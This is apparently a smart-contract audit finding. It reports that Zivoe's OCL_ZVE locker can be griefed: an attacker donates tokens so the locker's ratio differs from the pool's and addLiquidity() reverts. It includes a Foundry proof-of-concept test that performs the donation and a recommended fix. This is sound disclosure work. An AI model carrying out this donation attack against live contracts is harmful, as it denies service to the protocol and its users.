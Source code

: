 Proper Garnet Camel

medium

# OCL locker balance ratio differ from Uniswap pool resulting in grief/dos attack

## Summary
OCL locker contract adds liquidity to Uniswap/Sushiswap pool by sending the whole balance it has of both tokens and it does not take into consideration the current ratio of tokens in the pool. Because of this if the ratio is off by 10% (as the protocol hardcoded - [`link`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L203-L204)) the [`addLiquidity()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L198) will revert thus preventing the protocol from providing liquidity to generating yield.

## Vulnerability Detail
An attacker can always donate tokens to the locker contract and make the ratio off by enough to revert.

```solidity
...
uint balPairAsset = IERC20(pairAsset).balanceOf(address(this));
uint balZVE = IERC20(ZVE).balanceOf(address(this));
...
```

## Impact
`addLiquidity()` will revert if the provided ratio of tokens in the locker is different than the DEX pool. The ratio inside the contract is manipulatable by an attacker which increases the likelihood of this scenario.

## Code Snippet
Place the test at the bottom of Test_OCL_ZVE.sol.

```solidity
function test_OCL_ZVE_UNIV2_pushToLockerMulti_poc() public {
    uint256 amountA = 100e18; // DAI
    uint256 amountB = 100e18; // ZVE

    pushToLockerInitial_Uni(amountA, amountB, 0);

    address[] memory assets = new address[](2);
    uint256[] memory amounts = new uint256[](2);

    assets[0] = DAI;
    assets[1] = address(ZVE);

    amounts[0] = amountA;
    amounts[1] = amountB;

    /* Donate start: Donate to the locker to break the ration between the pool and the locker */
    address player = makeAddr("Nick_the_breaker");
    hevm.startPrank(player);
    mint("DAI", player, 15e18);
    IERC20(assets[0]).transfer(address(OCL_ZVE_UNIV2_DAI), 15e18);
    hevm.stopPrank();
    /* Donate end */

    bool result = god.try_pushMulti(address(DAO), address(OCL_ZVE_UNIV2_DAI), assets, amounts, new bytes[](2));

    assertEq(result, false);
}
```

## Tool used

Manual Review

## Recommendation
Do not take the balance of the locker to add liquidity to Uniswap/Sushiswap but instead pass the amounts via input parameters.